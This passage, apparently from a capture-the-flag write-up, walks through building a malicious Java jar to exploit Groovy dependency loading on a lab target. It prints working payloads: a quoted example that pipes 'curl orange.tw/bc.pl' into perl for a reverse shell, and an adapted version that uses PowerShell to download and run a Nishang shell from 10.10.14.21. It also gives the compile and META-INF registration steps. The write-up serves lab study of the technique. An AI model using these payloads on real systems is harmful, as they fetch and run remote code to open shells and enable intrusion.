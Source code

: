 

The web browser is showing a big error message that it can't resolve the
dependency:

![](/img/1551286007637.png)

### Building a Jar Payload

The blog gives an example payload that looks like this:



    public class Orange {
        public Orange(){
            try {
                String payload = "curl orange.tw/bc.pl | perl -";
                String[] cmds = {"/bin/bash", "-c", payload};
                java.lang.Runtime.getRuntime().exec(cmds);
            } catch (Exception e) { }
        }
    }



I can clearly see that it will exec
`/bin/bash -c curl orange.tw/bc.pl | perl -`. I can assume that `bc.pl`
is a reverse shell.

This will have to be modified for a Windows target. I'll have it run
PowerShell to get and Invoke a
[Nishang](https://github.com/samratashok/nishang) shell:



    public class Orange {
        public Orange(){
            try {
                String payload = "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.21/shell.ps1')";
                String[] cmds = {"cmd", "/c", payload};
                java.lang.Runtime.getRuntime().exec(cmds);
            } catch (Exception e) { }
        }
    }



Now I'll build that into a jar. Compile the java:



    root@kali# javac Orange.java



Make the appropriate metadata:



    root@kali# mkdir -p META-INF/services/
    root@kali# echo Orange > META-INF/services/org.codehaus.groovy.plugins.Runners 
    root@kali# find
    .
    ./Orange.java
    ./Orange.class
    ./META-INF
    ./META-INF/services
    ./META-INF/services/org.codehaus.groovy.plugins.Runners 
